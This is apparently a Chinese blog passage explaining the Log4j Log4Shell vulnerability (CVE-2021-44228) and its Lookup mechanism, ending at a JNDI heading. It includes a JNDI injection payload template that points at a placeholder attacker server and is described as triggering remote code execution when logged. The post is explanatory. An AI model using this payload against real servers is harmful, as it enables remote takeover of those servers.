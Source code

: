 ```yaml
---
tags:
  - 框架
  - 编程
layout: default
title: 从 Lombok 开始看 @Slf4j
---
```


# 从 Lombok 开始看 @Slf4j

> 参考资料：
> https://projectlombok.org/features/log
>
> https://github.com/projectlombok/lombok/issues/3063
> 
> 《深入理解 JVM 字节码》
> 
> 《深入理解 Java 虚拟机》
> 
> [blackhat 2016 年议题](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
> 
> https://docs.oracle.com/javase/tutorial/jndi/overview/index.html
> 
> [slf4j 官网](https://www.slf4j.org/manual.html)
> 
> [slf4j github](https://github.com/qos-ch/slf4j)

# 引入

2021 年 12 月，Apache Java模块Log4j库第一个远程代码执行漏洞被公开披露，该漏洞识别为CVE-2021-44228。此外，还陆续披露了漏洞——CVE-2021-45046和CVE-2021-45105。Log4j可能会成为现代网络安全史上最严重的漏洞。一旦漏洞被利用遭到入侵，服务器就可能会被劫持。

## 漏洞

能攻击到服务器的 **漏洞代码**
`${jndi:ldpa://xx.xx.xx.xx:xxx/xxx}` （ ldpa://恶意代码所在服务器 Ip /恶意代码类名），只需要将这行代码在任意会产生日志输出的输入框内输入就会在应用服务器上运行恶意代码

### 原理
log4j 对于我们来说，最常使用的是用来输出一些变量等，但是 log4j 除了可以输出程序中的变量，它还提供了一个叫 Lookup 的东西，可以用来输出更多内容（系统变量，网络中的变量等）。
Lookup 像是一个接口，具体去哪里查找，怎么查找需要具体模块的实现，而 log4j 已经帮我们把常见的查询途径都进行了实现。
![截屏2023-08-13 22.37.01.png](https://cdn.jsdelivr.net/gh/TongCodeSpace/picForBlog@master/data%E6%88%AA%E5%B1%8F2023-08-13%2022.37.01.png)



**JNDI**
